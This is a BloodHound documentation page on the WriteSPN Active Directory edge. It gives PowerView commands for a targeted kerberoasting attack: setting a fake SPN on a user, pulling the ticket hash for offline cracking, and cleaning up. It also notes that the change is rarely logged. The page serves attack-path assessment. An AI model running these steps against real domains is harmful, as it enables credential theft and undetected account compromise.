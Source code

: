---
title: WriteSPN
description: The ability to write directly to the servicePrincipalNames attribute on a user object. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


Writing to this property gives you the opportunity to perform a targeted kerberoasting attack against that user.

Abuse Info
----------

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with Get-DomainSPNTicket.

You may need to authenticate to the Domain Controller as the user with full control over the target user if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\\dfm.a', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as the user with full control over the target user.
```
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```
After running this, you can use Get-DomainSPNTicket as follows:
```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
```
The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:
```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```
Opsec Considerations
--------------------

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller. Your target may have configured logging on users to generate 5136 events whenever a directory service is modified, but this configuration is very rare.

References
----------

* [https://blog.harmj0y.net/redteaming/kerberoasting-revisited/](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/)

